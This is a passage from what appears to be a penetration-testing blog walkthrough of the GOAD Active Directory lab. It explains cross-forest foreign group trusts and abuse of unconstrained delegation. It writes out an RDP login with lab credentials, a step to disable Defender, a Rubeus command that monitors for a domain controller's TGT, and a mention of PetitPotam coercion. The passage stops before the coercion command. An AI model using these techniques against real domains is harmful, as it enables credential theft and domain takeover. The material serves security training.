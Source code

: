 - Essos to sevenkingdoms : group accros_thenarrowsea

In the same way we can exploit the essos to sevenkingdoms foreign group

![trust_foreing_groups_accros_thenarrowsea.png](/assets/blog/GOAD/trust_foreing_groups_accros_thenarrowsea.png)


> Please not that the active directory groups are not all the same.
> There is 3 types of security groups: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)
>  - Universal
>  - Global
>  - Domain Local
>
> If a group contains members of a trusted domain, it have to be of type Domain Local.
> 
> Groups scope informations are well explained by harmj0y [here](https://posts.specterops.io/a-pentesters-guide-to-group-scoping-c7bbbd9c7560)
{: .prompt-info }

## Use unconstrained delegation

- From kingslanding we can rule the essos domain with unconstrained delegation

- We connect to kingslanding with rdp as an administrator

```bash
xfreerdp /d:sevenkingdoms.local /u:cersei.lannister /p:'il0vejaime' /v:192.168.56.10 /size:80%  /cert-ignore
```

- For more simplicity we will disable defender 
- Now we launch [rubeus.exe](https://github.com/GhostPack/Rubeus) to wait for a TGT of the essos forest.

```powershell
.\Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1
```

- And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.
